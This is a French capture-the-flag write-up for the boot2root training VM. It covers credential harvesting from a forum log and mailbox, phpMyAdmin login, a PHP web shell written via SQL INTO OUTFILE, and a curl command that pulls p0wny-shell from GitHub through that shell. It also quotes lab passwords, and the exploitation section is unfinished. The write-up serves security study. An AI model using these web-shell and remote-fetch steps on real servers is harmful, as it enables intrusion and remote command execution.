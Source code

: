 # Writeup #2

## Contexte

Comme nous avons vu dans l'ancien writeup, il
nous a ete possible de devenir **root** en remplacant
simplement le binaire d'**init** par un shell dans les paramètres
kernel.

## Collecte d'informations

En ouvrant notre navigateur internet, dans notre cas firefox, il
est possible d'acceder au site internet HTTPS en ajoutant une exception
SSL.

En utilisant le logiciel **OWASP ZAP**, nous avons pu determiner
l'existence de plusieurs sous dossier du serveur HTTP:
- /forum
- /phpmyadmin

### Analyse du forum

Les forums utilisent en general des generateurs de page HTML;
ceux-ci ajoutant leurs versions dans la balise meta "generator":

```bash
curl -sk https://$TARGET/forum/ | grep "name=\"generator\""
```

Ce qui nous donne:

```
<meta name="generator" content="my little forum 2.3.4" />
```

D'autre part un naviguant sur le forum nous avons pu observe
la presence d'un topic intéressant a propos d'un *Probleme login*.
Le contenu du post possede la meme nomenclature du fichier de log SSH.

En lisant meticuleusement l'extrait du fichier, une ligne nous saute au yeux:

`Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2`

Le nom de l'utilisateur qui se serait trompe lors de sa connection s'apparente plus a un mot de passe,
une etourderie de la part de l'utilisateur peut etre ? En regardant la tentative
juste en dessous, nous pouvons apercevoir l'username **lmezard**:

`Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)`

En testant de se connecter sur le forum avec:
- username: `lmezard`
- password: `!q\]Ej?*5K5cy*AJ`

Il est possible d'acceder au compte et d'avoir acces a plus d'informations a propos de l'utilisateur:

![Boot Menu](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/forum.png)

Nous sommes en possession du mail de l'utilisateur: `laurie@borntosec.net`

### Le serveur IMAP

Lors du premier writeup, nous avons mis en evidence la presence d'un serveur IMAP
sur la VM, connectons nous sur le port securise:

```bash
openssl s_client -connect $TARGET:993
```

A partir de ce [memo](https://busylog.net/telnet-imap-commands-note/) du protocole, nous
allons examiner le compte:

```bash

* OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE AUTH=PLAIN] Dovecot ready.

a LOGIN laurie@borntosec.net !q\]Ej?*5K5cy*AJ

a OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS MULTIAPPEND UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS] Logged in

a LIST "*" "*"     

* LIST (\NoInferiors \UnMarked) "/" "INBOX.Drafts"
* LIST (\NoInferiors \Marked) "/" "INBOX.Sent"
* LIST (\NoInferiors \UnMarked) "/" "INBOX.Trash"
* LIST (\NoInferiors \UnMarked) "/" "INBOX"
a OK List completed.

a SELECT "INBOX.Sent"

* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 2 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1444339365] UIDs valid
* OK [UIDNEXT 3] Predicted next UID
* OK [HIGHESTMODSEQ 1] Highest
a OK [READ-WRITE] Select completed.

a FETCH 1 BODY[]

* 1 FETCH (BODY[] {1722}
Received: from 192.168.1.22
        (SquirrelMail authenticated user laurie@borntosec.net)
        by 192.168.1.8 with HTTP;
        Thu, 8 Oct 2015 23:22:45 +0200
Message-ID: <38e4cbc743bb95cd2402bf0bc47602b3.squirrel@192.168.1.8>
Date: Thu, 8 Oct 2015 23:22:45 +0200
Subject: Very interesting !!!!
From: laurie@borntosec.net
To: ft_root@mail.borntosec.net
User-Agent: SquirrelMail/1.4.22
MIME-Version: 1.0
Content-Type: text/plain;charset=iso-8859-1
Content-Transfer-Encoding: 8bit
X-Priority: 3 (Normal)
Importance: Normal

WinDev est un atelier de g�nie logiciel (AGL) �dit� par la soci�t�
fran�aise PC SOFT et con�u pour d�velopper des applications,
principalement orient�es donn�es pour Windows 8, 7, Vista, XP, 2008, 2003,
2000, mais �galement pour Linux, .Net et Java. Il propose son propre
langage, appel� le WLangage. La premi�re version de l'AGL est sortie en
1993. Apparent� � WebDev et WinDev Mobile.

La communaut� autour de WinDev
Tour De France Technique
Chaque ann�e, entre le mois de mars et le mois de mai, PC SOFT organise
dans toute la France ce qu'ils appellent le TDF Tech (Tour De France
Technique). Cet �v�nement d'une demi-journ�e a pour but d'informer et de
pr�senter les nouveaut�s de chaque version. Pendant cette courte
formation, les diff�rents intervenants utilisent un grand nombre
d'applications pr�-con�ues dans lesquelles ils ont int�gr� les multiples
nouveaut�s, tout en exploitant le mat�riel (serveurs, t�l�phones) qu'ils
ont apport�. Non seulement, WinDev est largement mis en avant, mais aussi
les autres environnements : WebDev et WinDev Mobile. Le code source des
sujets pr�sent�s ainsi qu'un support de cours sont remis � chaque
participant.
)
a OK Fetch completed.
a SELECT "INBOX.Sent"
* OK [CLOSED] Previous mailbox closed.
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 2 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1444339365] UIDs valid
* OK [UIDNEXT 3] Predicted next UID
* OK [HIGHESTMODSEQ 1] Highest
a OK [READ-WRITE] Select completed.

a FETCH 2 BODY[]

* 2 FETCH (BODY[] {629}
Received: from 192.168.1.22
        (SquirrelMail authenticated user laurie@borntosec.net)
        by 192.168.1.8 with HTTP;
        Thu, 8 Oct 2015 23:25:25 +0200
Message-ID: <e231e4a59416c44fd367fc5eeff1e8f5.squirrel@192.168.1.8>
Date: Thu, 8 Oct 2015 23:25:25 +0200
Subject: DB Access
From: laurie@borntosec.net
To: ft_root@mail.borntosec.net
User-Agent: SquirrelMail/1.4.22
MIME-Version: 1.0
Content-Type: text/plain;charset=iso-8859-1
Content-Transfer-Encoding: 8bit
X-Priority: 3 (Normal)
Importance: Normal

Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
)
a OK Fetch completed.
```

Des credentials de BDD:
- username: `root`
- password: `Fg-'kKXBj87E:aJ$`

### PHPmyAdmin

Comme nous savons que phpmyadmin est installe sur le serveur,
nous pouvons utiliser les credentials pour se connecter:

![phpmyadmin](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/phpmyadmin.png)

En se basant sur cet [article](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2) nous allons
mettre en place un shell pour executer des commandes a distance:

```sql
select "<?php $o = shell_exec($_REQUEST['x']); echo $o ?>" into outfile "/var/www/x.php";
```

Seulement le serveur nous renvois une erreur:
```
#1 - Can't create/write to file '/var/www/x.php' (Errcode: 13)
```

Il nous faut un dossier dans lequel nous avons les droits d'ecriture.
En lisant la [documentation](https://github.com/ilosuna/mylittleforum/wiki/Installation) d'installation
du forum:

> Depending on your server configuration the write permission of the subdirectory templates_c (CHMOD 770, 775 or 777) and the file config/db_settings.php (CHMOD 666) might need to be changed in order that they are writable by the script

Le dossier **template_c** semble correct:

```sql
select "<?php $o = shell_exec($_REQUEST['x']); echo $o ?>" into outfile "/var/www/forum/templates_c/foo.php"
```

![phpmyadmin](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/phpmyadmin2.png)

Succes ! Nous pouvons desormais installer un shell plus fancy:

```bash
curl -sk "https://$TARGET/forum/templates_c/foo.php?x=curl -O https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php"
```

![shell](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/shell.png)

Un nouveau jeu de credentials ! `lmezard:G!@M6f4Eatau{sF"`

### FTP

En testant les identifiants sur le serveur FTP,
nous avons acces a un dossier:

![ftp](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/ftp.png)

Nous telechargeons son contenu.

## Exploitation

WIP !
